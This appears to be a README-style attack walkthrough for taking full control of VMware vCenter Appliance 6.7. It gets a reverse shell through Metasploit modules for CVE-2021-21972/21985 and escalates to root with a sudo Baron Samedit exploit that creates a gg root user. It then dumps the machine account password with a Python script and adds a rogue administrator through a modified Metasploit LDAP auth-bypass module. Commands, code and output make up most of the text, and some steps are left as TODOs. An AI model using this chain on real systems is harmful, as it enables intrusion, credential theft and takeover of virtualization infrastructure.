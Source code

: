 ## Taking over VMware Vcenter 6.7.0

Chain of actions tested on `vCenter Appliance 6.7 Update 3 (6.7.0.40000)`

### Geting low priviledge access to vsphere-ui

Since this version is vulnerble to CVE 2021-21972 and CVE-2021-21985 you may use Metasploit's vcenter modules
```
   3  exploit/multi/http/vmware_vcenter_uploadova_rce           2021-02-23       manual     Yes    VMware vCenter Server Unauthenticated OVA File Upload RCE
   4  exploit/linux/http/vmware_vcenter_vsan_health_rce         2021-05-25       excellent  Yes    VMware vCenter Server Virtual SAN Health Check Plugin RCE
```
to get low priviledge access (reverse shell) to the vsphere-ui user. For this version of vcenter the `vmware_vcenter_vsan_health_rce` seems to be more reliable, 
alhough be patient, it usually succeeds in about 70% of attemtps only. If you don't get the reverse shell on the first attempt, just repeat the exploit:

... TODO: picture ...

### Escalating priviledges via CVE-2021-3156 (Sudo Baron Samedit)

Vcenter 6.7.0 vsphere appliance runs on Photon OS Linux 1.0 with a sudo 1.8.20p2 vulnerable to CVE-2021-3156

Photon OS version (`cat /etc/photon-release`):
```
VMware Photon Linux 1.0
PHOTON_BUILD_NUMBER=62c543d
```
`sudo --version`:
```
Sudo version 1.8.20p2
Configure options: --prefix=/usr --bindir=/usr/bin --libexecdir=/usr/lib --docdir=/usr/share/doc/sudo-1.8.20p2 --with-all-insults --with-env-editor --with-pam --with-pam-login  --with-passprompt=[sudo] password for %p
```
Exploit https://github.com/worawit/CVE-2021-3156/blob/main/exploit_userspec.py works out of the box. At the end of the exploit you get a `gg` user created with password `gg` and UID=0:

```
# python ./exploit_userspec.py
... snip ....
to skip finding offsets next time no this machine, run:
exploit_userspec.py 0xd90 -1 0x1f0 0x0
gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash
success at 8303
```

At this point you may use `ssh gg@your-vcenter` to logon to vsphere appliance as a root.

### Geting credentials to vcenter

Logged as root use the below script to get the password for machine account from vmdir's LDAP directory for `vsphere.local` domain:
```
#!/usr/bin/env python
import os
import sys
import shutil

sys.path.append('/usr/lib/vmware-vmafd/lib64')

import vmafd

def getMachineAccountCredentials():
    client = vmafd.client('localhost')
    username = client.GetMachineName()
    password = client.GetMachinePassword()
    return (username, password)

if __name__ == "__main__":
    print(getMachineAccountCredentials())
```
Note: it does not work if run by `vsphere-ui` user.

You obtain the user name and password:
```
root@10.0.0.1 [ /tmp ]# ./get_creds.py
('10.0.0.1', 'Password123')
```
The full username of the machine account is `cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local`.

### Creating own admin user on the vcenter

The machine account cannot be used yet to logon to the vcenter, but we can use it for authentication to vsphere.local LDAP server and create our own admin 
account with Metasploit's `auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass` module.

At the moment of writing the module needs to be adjusted with ... TODO: reference to the pull request .... 

TO BE UPDATED SOON ... I'm about to submit a pull request to metasploit until tomorrow, that will change the below function in `vmware_vcenter_vmdir_auth_bypass`

```
  def auth_bypass(ldap)
    unless datastore['BIND_DN']
      ldap.bind(
        method: :simple,
        username: Rex::Text.rand_text_alphanumeric(8..42),
        password: Rex::Text.rand_text_alphanumeric(8..42)
      )
    end
  end
```
After that modification an authenticated `vmware_vcenter_vmdir_auth_bypass` will work.


Fill in your options and execute:
```
msf6 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting                                        Required  Description
   ----      ---------------                                        --------  -----------
   BASE_DN   dc=vsphere,dc=local                                    no        LDAP base DN if you already have it
   BIND_DN   cn=10.0.0.1,ou=Domain Controllers,dc=vsphere,dc=local  no        The username to authenticate to LDAP server
   BIND_PW   Password123                                            no        Password for the BIND_DN
   PASSWORD  NewPassword123#                                        no        Password of admin user to add
   RHOSTS    10.0.0.1                                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     636                                                    yes       The target port
   SSL       true                                                   no        Enable SSL on the LDAP connection
   USERNAME  Myadmin                                                no        Username of admin user to add
```

You should get your new admin user `Myadmin@vsphere.local` created with password `NewPassword123#`. Now go to the https://10.0.0.1/ui and logon to the vcenter.

